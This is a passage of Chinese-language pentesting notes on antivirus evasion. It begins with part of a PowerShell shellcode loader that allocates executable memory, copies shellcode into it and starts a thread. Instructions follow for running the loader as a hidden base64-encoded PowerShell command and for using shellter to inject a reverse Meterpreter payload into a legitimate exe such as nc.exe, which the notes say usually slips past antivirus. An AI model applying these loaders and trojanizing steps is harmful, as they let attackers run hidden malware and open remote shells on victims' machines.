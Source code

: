```

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

3. 传送到windows，执行

```
.\av_test.ps1
```

4. 一行powershell执行

> 4.1 用[这个](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py)py脚本加密
> 4.2 执行 ```python2 ps_encoder.py -s av_test.ps1```
> 4.3 上面生成的加密字符串使用下面命令执行
```
powershell -nop -w hidden -encodedcommand [这里是base64加密字符串，不包括中括号]
```


# shellter

我理解就是把payload注入到正常的exe文件中

1. 安装
```
sudo apt install shellter
apt install wine
```

2. 运行
```
shellter
```

按提示加载需要注入payload 的exe程序，比如nc.exe
选择反弹的payload，比如Meterpreter
选择反弹的LHOST和LPORT

3. 把注入的exe文件传到靶机，双击执行，一般可以绕过反病毒软件

